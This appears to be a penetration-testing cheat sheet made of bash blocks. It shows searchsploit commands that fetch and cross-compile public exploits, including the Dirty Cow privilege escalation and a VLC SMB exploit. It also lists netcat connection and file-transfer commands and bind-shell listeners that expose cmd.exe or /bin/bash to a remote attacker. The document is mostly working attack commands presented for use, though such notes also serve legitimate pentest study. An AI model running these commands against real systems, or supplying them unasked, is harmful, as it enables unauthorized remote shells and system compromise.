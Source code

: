 ```bash
# CROSS COMPILING
sudo apt -y install mingw-w64 gcc

## Windows Target
searchsploit VideolAN VLC SMB
searchsploit -m 9303
# Compile for x64
x86_64-w64-mingw32-gcc 9303.c -o exploit64.exe
# Compile for x86 (32-bit)
i686-w64-mingw32-gcc 9303.c -o exploit32.exe

## Linux Target
searchsploit Dirty Cow
searchsploit -m 40839
gcc -pthread 40839.c -o dirty_exploit -lcrypt
```

### Shells

```bash
# NETCAT - Install
sudo apt update && sudo apt install -y netcat
# or upload the nc.exe on the target machine

nc <TARGET_IP> <TARGET_PORT>
nc -nv <TARGET_IP> <TARGET_PORT>
nc -nvu <TARGET_IP> <TARGET_UDP_PORT>

## NC Listener
nc -nvlp <LOCAL_PORT>
nc -nvlup <LOCAL_UDP_PORT>

## Transfer files
# Target machine
nc.exe -nvlp <PORT> > test.txt
# Attacker machine
echo "Hello target" > test.txt
nc -nv <TARGET_IP> <TARGET_PORT> < test.txt
```

```bash
# BIND SHELL

## Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp <PORT> -e cmd.exe
## Attacker Linux machine
nc -nv <TARGET_IP> <PORT>

## Target Linux machine - Bind shell listener with /bin/bash
nc -nvlp <PORT> -c /bin/bash
## Attacker Win machine
nc.exe -nv <TARGET_IP> <TARGET_PORT>
```
